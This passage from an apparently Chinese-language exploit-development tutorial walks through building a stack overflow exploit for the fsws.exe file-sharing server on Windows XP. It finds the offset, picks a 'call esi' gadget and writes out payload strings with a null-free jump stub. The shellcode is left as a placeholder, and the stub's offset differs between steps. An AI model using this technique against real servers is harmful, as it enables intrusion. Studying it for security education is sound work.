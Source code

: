 ```python
s.close()
```
​	
	4. 打开Immunity debugger，附加到fsws.exe上。因为从发生崩溃的指令地址为 0x0045c8c2，所以在此设置一个断点
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/15.png)
​	
	5. 运行python程序进行发包，程序成功的断在了断点处，F9继续运行，当第四次执行该条指令时，此时的edx被覆盖为0x41414141，esi和edi的值均指向了栈上可以被覆盖的地方
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/16.png)
​	
	6. 首先确定需要多少字节才能精准覆盖到edx，使用Immunity debugger的mona插件很容易计算出offset为80.
```sh
payload = 'A'*80 + 'B'*4 + 'C'*1000
```
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/17.png)
​	
	7. 因为在xp上，并未开启ASLR和NX，所以shellcode可以放到栈上进行执行。因为ESI又指向栈上地址，所以就想首先控制eip到"call esi"或者"jmp esi"这样的指令上去。寻找这样的指令也很简单，首先“alt+E”列出加载的DLL模块。因为payload中不能出现'\x00'，所以找了一个基地址为0x10000000地址的DLL
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/18.png)
​	
	8. 双击进入到该模块，右键 --> Search for -->  All command，查询"call esi"指令，从中选中一条不包含'\x00'的：0x1001b371
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/19.png)
​	
	9. 此时payload构造如下
```sh
payload = 'A'*80 + struct.pack("<I", 0x019b68d4) + struct.pack("<I", 0x1001b371) + 'C'*1000
```
​     如下图所示，此时已经顺利跳转到了"call esi"指令处，但是此时esi指向栈上的0x019b68e8位置，其下四个位置处即是覆盖edx的数据，不能允许被覆盖。如果shellcode放到0x019b68e8 这个地址，那么shellcode的空间只剩下可怜的16个字节。
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/20.png)
​	
	10. 为了解决这个问题，我们在这16个字节处放置过渡指令，即增大esi的值，然后再跳转过去执行。“add esi,0x18    ;    jmp esi”。使用mona的汇编功能，进行汇编转机器码非常方便
```sh
!mona assemble -s add esi,0x28
```
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/21.png)

​    
	11. 使用这条指令是行不通的，因为指令的机器码中包含了可恶的"\x00"。可以用“sub esi,-0x18”来代替
```sh
！moona assemble -s sub esi,-0x28
```
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/22.png)
​	
	12. 所以此时payload构造如下。如下图，成功执行到调整指令，“jmp esi”时，esi已经指向了我们想要的广阔的栈空间

```sh
payload = "A"*64 + "\x81\xee\xe8\xff\xff\xff" + "\xff\xe6"
payload = payload.ljust(80,"A")
payload += struct.pack("<I", 0x019b68d4) + struct.pack("<I", 0x1001b371) + “DDDD” + "C"*1000
```
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/23.png)
​	
	13. 将payload中"DDDD"的位置换做shellcode就大功告成了
